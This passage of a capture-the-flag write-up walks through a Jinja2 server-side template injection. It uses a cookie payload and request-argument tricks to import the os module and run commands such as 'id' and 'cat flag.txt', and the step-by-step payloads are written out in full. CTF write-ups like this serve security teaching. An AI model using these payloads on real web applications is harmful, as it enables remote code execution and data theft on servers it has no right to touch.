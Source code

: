 ```http
GET /?service=adminpage&a=application&b=__globals__&c=__getitem__&d=__builtins__&e=__getitem__&f=__import__&g=os HTTP/1.1
Cookie: user={{request|attr(request.args.a)|attr(request.args.b)|attr(request.args.c)(request.args.d)|attr(request.args.e)(request.args.f)(request.args.g)}}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230521125739.png)

Nice!! Now that we dynamically imported the `os` module, we can now invoke it's methods to execute OS command.

**But, we can't just use the following payload to invoke `os` module method:**
```python
request|attr(request.args.a)|attr(request.args.b)|attr(request.args.c)(request.args.d)|attr(request.args.e)(request.args.f)(request.args.g).(request.args.h)
```

In Jinja2, we can assign variables via `{% set <variable_name> = <value> %}`.

**So, let's assign the `os` module to `os` variable!**
```http
GET /?service=adminpage&a=application&b=__globals__&c=__getitem__&d=__builtins__&e=__getitem__&f=__import__&g=os HTTP/1.1
Cookie: user={% set os = request|attr(request.args.a)|attr(request.args.b)|attr(request.args.c)(request.args.d)|attr(request.args.e)(request.args.f)(request.args.g) %} {{os}}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230521130153.png)

**Now we can invoke `os` module's methods!!**

**To execute OS command, we can use the `popen()` method, and `read()` it:**
```http
GET /?service=adminpage&a=application&b=__globals__&c=__getitem__&d=__builtins__&e=__getitem__&f=__import__&g=os HTTP/1.1
Cookie: user={% set os = request|attr(request.args.a)|attr(request.args.b)|attr(request.args.c)(request.args.d)|attr(request.args.e)(request.args.f)(request.args.g) %} {{os.popen("id").read()}}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230521130350.png)

Yes!! We got RCE!!

**Let's read the flag:**
```http
GET /?service=adminpage&a=application&b=__globals__&c=__getitem__&d=__builtins__&e=__getitem__&f=__import__&g=os HTTP/1.1
Cookie: user={% set os = request|attr(request.args.a)|attr(request.args.b)|attr(request.args.c)(request.args.d)|attr(request.args.e)(request.args.f)(request.args.g) %} {{os.popen("ls").read()}}

GET /?service=adminpage&a=application&b=__globals__&c=__getitem__&d=__builtins__&e=__getitem__&f=__import__&g=os HTTP/1.1
Cookie: user={% set os = request|attr(request.args.a)|attr(request.args.b)|attr(request.args.c)(request.args.d)|attr(request.args.e)(request.args.f)(request.args.g) %} {{os.popen("cat flag.txt").read()}}
```
{% endraw %}
